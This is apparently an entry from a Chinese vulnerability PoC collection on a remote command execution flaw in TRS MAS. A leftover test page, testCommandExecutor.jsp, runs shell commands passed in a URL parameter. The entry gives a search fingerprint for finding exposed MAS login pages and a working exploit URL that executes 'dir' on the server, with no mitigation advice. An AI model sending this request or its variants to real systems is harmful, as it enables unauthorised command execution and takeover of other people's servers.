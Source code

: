 # 拓尔思 MAS testCommandExecutor.jsp 远程命令执行漏洞

## 漏洞描述

拓尔思 MAS testCommandExecutor.jsp测试文件存在远程命令执行漏洞，当网站运维者未删除测试文件时，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

<a-checkbox checked>拓尔思-MAS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"MAS媒资管理系统登录页面"</a-checkbox></br>

## 漏洞复现

主页面

![img](../../../.vuepress/public/img/1651159019976-6d273e4e-49cc-4141-8ffd-a4618948b494.png)

验证POC

```java
/mas/front/vod/main.do?method=newList&view=forward:/sysinfo/testCommandExecutor.jsp&cmdLine=dir&workDir=&pathEnv=&libPathEnv=
```

![img](../../../.vuepress/public/img/1651194412574-f6cbf86c-77a7-4495-afad-8daa67cdc968.png)